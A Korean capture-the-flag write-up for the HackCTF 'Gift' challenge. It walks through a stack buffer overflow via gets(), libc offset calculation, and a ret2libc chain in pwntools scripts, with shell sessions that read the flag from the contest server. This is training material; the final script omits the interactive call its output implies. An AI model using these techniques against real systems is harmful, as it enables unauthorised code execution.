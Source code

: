 # Gift

---

우선 main코드를 살펴보자

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-84h]

  alarm(0x3Cu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  printf("Hey guyssssssssss here you are: %p %p\n", &binsh, &system);
  fgets(&s, 128, stdin);
  printf(&s);
  gets(&s);
  return 0;
}
```

다음과 같이 binsh와 `system()`의 주소를 주고 `fgets()`를 이용해서 128bytes를 한 번 입력받은 후 `gets()`를 통해서 bufferoverflow가 일어난다. 이를 통해서 쉽게 익스플로잇이 가능하다고 생각하여 다음과 같이 코드를 짜보았다.
```python
from pwn import*

p=process('./gift')

p.recvuntil(': ')

binsh=int(p.recv(9),16)

p.recv(1)

system=int(p.recv(9),16)

log.info("binsh address is "+str(hex(binsh)))
log.info("system address is "+str(hex(system)))

payload='A'*136
payload+=p32(system)
payload+='AAAA'
payload+=p32(binsh)

p.sendline('1')

p.recvline()
```

하지만 익스에 성공하지 못했다. 이유를 찾아보니 binsh라는 공간에는 아무것도 들어있지 않았었다. 때문에 이 binsh라는 공간에 따로 "/bin/sh" 문자열을 담는 과정이 필요하다.

때문에 `gets()`함수를 이용해서 "/bin/sh"문자열을 binsh에다가 담은 후 system함수를 호출할 것이다. 이를 위해서 필요한 정보는 다음과 같다.

**system 함수의 offset<br>
gets 함수의 offset<br>
pop ret gadget의 위치**

우선 `system()`의 offset과 `gets()`의 offset은 다음과 같다.
```gdb
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e3eda0 <__libc_system>
    gdb-peda$ p gets
    $2 = {<text variable, no debug info>} 0xf7e633e0 <_IO_gets>
    gdb-peda$ vmmap
    Start      EndPerm      	Name
    0x08048000 0x08049000 r-xp	/home/sjy0175/Desktop/HackCTF/Pwnable/19.Gift/gift
    0x08049000 0x0804a000 rw-p	/home/sjy0175/Desktop/HackCTF/Pwnable/19.Gift/gift
    0xf7e03000 0xf7e04000 rw-p	mapped
    0xf7e04000 0xf7fb4000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
    0xf7fb4000 0xf7fb6000 r--p	/lib/i386-linux-gnu/libc-2.23.so
    0xf7fb6000 0xf7fb7000 rw-p	/lib/i386-linux-gnu/libc-2.23.so
    0xf7fb7000 0xf7fba000 rw-p	mapped
    0xf7fd3000 0xf7fd4000 rw-p	mapped
    0xf7fd4000 0xf7fd7000 r--p	[vvar]
    0xf7fd7000 0xf7fd9000 r-xp	[vdso]
    0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
    0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.23.so
    0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.23.so
    0xfffdd000 0xffffe000 rw-p	[stack]
    gdb-peda$ p 0xf7e3eda0-0xf7e04000
    $3 = 0x3ada0
    gdb-peda$ p 0xf7e633e0-0xf7e04000
    $4 = 0x5f3e0
```
**system\_offset=0x3ada0 <br>
gets\_offset=0x5f3e0**

pop ret gadget의 위치는 `gets()`의 중간에 있는 코드를 이용하였다.
```gdb
    gdb-peda$ pd gets
    Dump of assembler code for function _IO_gets:
       0xf7e63508 <+296>:	pop ebp
       0xf7e63509 <+297>:	ret
    ...
    End of assembler dump.
```
**pop\_ret\_offset=0x5f508**

이를 토대로 다음과 같이 익스플로잇 코드를 짜보았다.
```python
from pwn import*

#p=remote('ctf.j0n9hyun.xyz',3018)
p=process('./gift')

system_offset=0x3ada0
gets_offset=0x5f3e0
pop_ret_offset=0x5f508

p.recvuntil(': ')

binsh=int(p.recv(9),16)

p.recv(1)

system_address=int(p.recv(10),16)

log.info("binsh address is "+str(hex(binsh)))
log.info("system address is "+str(hex(system_address)))

libc_base=system_address-system_offset
gets_address=libc_base+gets_offset
pop_ret_address=libc_base+pop_ret_offset

payload='A'*136
payload+=p32(gets_address)
payload+=p32(pop_ret_address)
payload+=p32(binsh)
payload+=p32(system_address)
payload+='AAAA'
payload+=p32(binsh)

p.sendline('1')

p.recvline()

p.sendline(payload)

p.sendline('/bin/sh')

p.interactive()
```
이 코드를 통해서 로컬 익스플로잇에 성공하였다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/19.Gift$ python ex.py
[+] Starting local process './gift': pid 3245
[*] binsh address is 0x8049940
[*] system address is 0xf7d41da0
[*] Switching to interactive mode
1
$ whoami
sjy0175
$ pwd
/home/sjy0175/Desktop/HackCTF/Pwnable/19.Gift
```

하지만 remote 바꾼 후 코드를 실행시켰더니 쉘이 실행되지 않았다. 로컬에서는 성공했었는데 서버에서는 실패한 이유는 무엇일까.

그 이유는 ASLR때문에 offset을 구하여 함수의 주소를 알아냈지만 libc파일이 따로 주어지지 않아서 offset값이 달랐기 때문이다. 그래서 정확한 offset값을 **https://libc.blukat.me/** 사이트에서 알 수 있었다.

**system\_offset=0x3a940<br>
gets\_offset=0x5e890<br>
pop\_ret\_offset=0x5e9b8**

이를 통해서 다음 코드로 익스플로잇에 성공할 수 있었다.

```python
from pwn import*

p=remote('ctf.j0n9hyun.xyz',3018)
#p=process('./gift')

system_offset=0x3a940
gets_offset=0x5e890
pop_ret_offset=0x5e9b8

p.recvuntil(': ')

binsh=int(p.recv(9),16)

p.recv(1)

system_address=int(p.recv(10),16)

log.info("binsh address is "+str(hex(binsh)))
log.info("system address is "+str(hex(system_address)))

libc_base=system_address-system_offset
gets_address=libc_base+gets_offset
pop_ret_address=libc_base+pop_ret_offset

payload='A'*136
payload+=p32(gets_address)
payload+=p32(pop_ret_address)
payload+=p32(binsh)
payload+=p32(system_address)
payload+='AAAA'
payload+=p32(binsh)

p.sendline('1')

p.recvline()

p.sendline(payload)
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/19.Gift$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3018: Done
[*] binsh address is 0x8049940
[*] system address is 0xf7d59940
[*] Switching to interactive mode
1
$ whoami
attack
$ ls
flag
main
$ cat flag
HackCTF{플래그_잘_받았지?_이게_내_선물이야!}
```

**flag: HackCTF{플래그_잘_받았지?_이게_내_선물이야!}**
